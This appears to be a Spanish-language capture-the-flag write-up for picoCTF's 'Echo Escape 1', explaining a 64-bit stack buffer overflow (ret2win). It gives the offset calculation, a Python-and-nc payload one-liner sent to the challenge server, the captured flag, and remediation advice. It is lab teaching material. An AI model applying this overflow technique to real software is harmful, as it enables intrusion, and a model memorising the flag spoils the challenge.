




# 🎯 Echo Escape 1

**Plataforma:** picoCTF 2026
**Categoría:** Binary Exploitation
**Vulnerabilidades:** Stack-based Buffer Overflow, Ret2Win (64-bit).
**Conceptos Clave:** 64-bit Stack Frames, Little Endian extendido, RBP Overwrite, RIP Control.
**Dificultad:** Media (100 puntos)

### 📂 Estructura de Archivos
* `README.md`: Reporte detallado de la vulnerabilidad y explotación.
* `vuln`, `vuln.c`: Binario vulnerable y su código fuente.
* `assets/`: Directorio con las capturas de evidencia.

---

### 📂 Resumen Ejecutivo
Este desafío consiste en un binario ejecutable de 64 bits desarrollado en C. Al igual que su secuela, sufre de una vulnerabilidad crítica de desbordamiento de búfer (Buffer Overflow) en la pila. El desarrollador utilizó la función `read()` permitiendo el ingreso de hasta 128 bytes en un espacio reservado de solo 32 bytes. Al aprovechar la ausencia de mitigaciones modernas (Canaries y PIE), se logró calcular el offset para una arquitectura de 64 bits, sobrescribiendo el Base Pointer (RBP) y el Instruction Pointer (RIP) para redirigir el flujo hacia la función oculta `win()` y obtener la bandera.

---

### 1. Reconocimiento y Análisis Estático
El análisis inicial del binario arrojó la siguiente información técnica:
* **Arquitectura:** ELF 64-bit LSB executable, x86-64. Esto indica que los registros de memoria (como RBP y RIP) tienen un tamaño de 8 bytes.


*Confirmación de arquitectura de 64 bits.*

* **Protecciones (`checksec`):**
  * Stack Canary: Deshabilitado.
  * PIE: Deshabilitado (direcciones estáticas).
  * NX: Habilitado (ejecución en la pila bloqueada).


*Sin canary y sin PIE: escenario ideal para un Ret2Win con dirección estática.*

El código fuente (`vuln.c`) muestra la falla en la función `main()`:
```c
char buf[32];
// ...
read(0, buf, 128);
```
El programa también contiene una función `win()` diseñada para leer e imprimir `flag.txt`.

### 2. Preparación del Payload (Ret2Win 64-bit)
Al ser un ejecutable sin PIE, se utilizó `objdump` para localizar la dirección en memoria de la función `win`:
```bash
objdump -d vuln | grep win
```
La dirección devuelta fue `0000000000401256`.


*Dirección estática de `win`: `0x401256`.*

Para inyectarla correctamente en una arquitectura Little Endian de 64 bits, la dirección de 8 bytes se formateó de la siguiente manera:
`\x56\x12\x40\x00\x00\x00\x00\x00`.

### 3. Cálculo del Offset
A diferencia de los binarios de 32 bits, el registro Base Pointer (RBP) en 64 bits ocupa 8 bytes. El cálculo exacto para alcanzar el Instruction Pointer (RIP) fue:
32 bytes (tamaño del buffer) + 8 bytes (tamaño de RBP) = 40 bytes de relleno.

### 4. Explotación
Se utilizó Python para generar la cadena de 40 caracteres "A" seguida de la dirección de retorno inyectada en formato crudo. Esto se envió al servidor remoto mediante `nc`.

**Comando de ataque:**

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40 + b"\x56\x12\x40\x00\x00\x00\x00\x00")' | nc mysterious-sea.picoctf.net 51950
```


*El servicio de echo retorna a `win()` y entrega la bandera.*

### 5. Resultado
Al completarse la lectura del `read()`, el programa intentó retornar a la dirección sobrescrita en el RIP, ejecutando exitosamente la función `win()` y revelando la bandera oculta.

**Flag:** `picoCTF{3ch0_s3rv1c3_br34k5_22f4ab1e}`

---

### 🛡️ Remediación (Developer Perspective)
* **Límites estrictos de lectura:** Corregir el tercer parámetro de la función `read()` para que no exceda bajo ninguna circunstancia el tamaño reservado de la variable: `read(0, buf, sizeof(buf));`.
* **Mitigaciones de compilador:** Recompilar el binario activando protecciones contra desbordamientos. Específicamente, habilitar Stack Canaries (`-fstack-protector-all`) para detectar la corrupción del RBP/RIP, y Position Independent Executable (`-pie`) para aleatorizar las direcciones de memoria e invalidar los saltos estáticos.
